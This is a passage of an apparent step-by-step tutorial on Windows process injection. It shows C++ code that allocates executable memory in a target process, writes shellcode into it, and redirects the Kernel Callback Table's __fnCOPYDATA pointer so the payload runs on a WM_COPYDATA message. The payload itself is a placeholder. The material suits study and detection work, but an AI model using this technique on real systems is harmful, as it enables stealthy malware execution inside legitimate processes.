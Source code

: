 **Detailed Explanation**  
- `ReadProcessMemory` accesses the Kernel Callback Table at an offset from the PEB address, giving access to pointers controlling certain callback functions.

### Step 8 - Allocating Memory for the Payload

The payload, typically shellcode, is allocated within the target process’s memory space. The memory is marked executable to ensure the code can run.

```cpp
unsigned char my_payload[] = "..."; 
SIZE_T shellcodeSize = sizeof( my_payload );

LPVOID remotebuf = VirtualAllocEx( hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE

_EXECUTE_READWRITE );
if ( !remotebuf ) {
    printf( "[-] Failed to allocate remote buffer. Error: %d\n", GetLastError() );
    return -1;
}
if ( !WriteProcessMemory( hProcess, remotebuf, my_payload, shellcodeSize, NULL ) ) {
    printf( "[-] Failed to write payload to remote buffer. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Payload written to remote buffer at: 0x%p\n", remotebuf );
```

**Detailed Explanation**  
- **VirtualAllocEx** allocates memory in the target process and marks it with `PAGE_EXECUTE_READWRITE`, making it both writable and executable.
- **WriteProcessMemory** writes the shellcode to the allocated space, enabling it to run when triggered.

### Step 9 - Modifying the Kernel Callback Table

The Kernel Callback Table is modified by redirecting the `__fnCOPYDATA` pointer to the injected payload. This makes Windows invoke the payload during a `WM_COPYDATA` message.

```cpp
KERNELCALLBACKTABLE cKCT;
if ( !ReadProcessMemory( hProcess, KernelCallbackTable, &cKCT, sizeof( cKCT ), &bytesRead ) ) {
    printf( "[-] Failed to read existing KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
cKCT.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;

LPVOID clonedcKCT = VirtualAllocEx( hProcess, NULL, sizeof( cKCT ), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE );
if ( !clonedcKCT || !WriteProcessMemory( hProcess, clonedcKCT, &cKCT, sizeof( cKCT ), NULL ) ) {
    printf( "[-] Failed to clone KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
```
